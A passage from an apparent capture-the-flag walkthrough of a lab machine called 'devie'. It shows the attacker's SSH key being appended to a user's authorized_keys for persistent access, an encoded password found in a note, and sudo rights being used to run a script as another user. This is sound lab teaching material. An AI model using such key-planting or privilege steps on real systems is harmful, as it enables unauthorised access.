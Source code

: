 We can add our `id_rsa` key to `authorized_keys` and migrate to `ssh`, let's do it:

```bash
echo 'OUR_ID_RSA.PUB KEY' >> /home/bruce/.ssh/authorized_keys
```

Now, let's go into ssh:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250504144058.png)

Nice, let's proceed to analyze those interesting files we found `checklist` and `note`:

```bash
bruce@devie:~$ cat note
Hello Bruce,

I have encoded my password using the super secure XOR format.

I made the key quite lengthy and spiced it up with some base64 at the end to make it even more secure. I'll share the decoding script for it soon. However, you can use my script located in the /opt/ directory.

For now look at this super secure string:
NEUEDTIeN1MRDg5K

Gordon
```

```bash
cat checklist
Web Application Checklist:
1. Built Site - check
2. Test Site - check
3. Move Site to production - check
4. Remove dangerous fuctions from site - check
Bruce


```

If we check our `sudo -l` privileges:

```bash
bruce@devie:~$ sudo -l
Matching Defaults entries for bruce on devie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bruce may run the following commands on devie:
    (gordon) NOPASSWD: /usr/bin/python3 /opt/encrypt.py
```

We can run `/usr/bin/python3 /opt/encrypt.py` as gordon, let's check it out:

```
bruce@devie:~$ sudo -u gordon /usr/bin/python3 /opt/encrypt.py
Enter a password to encrypt: NEUEDTIeN1MRDg5K
PTAlIDYnLAY8VDk5IR5NJA==
```
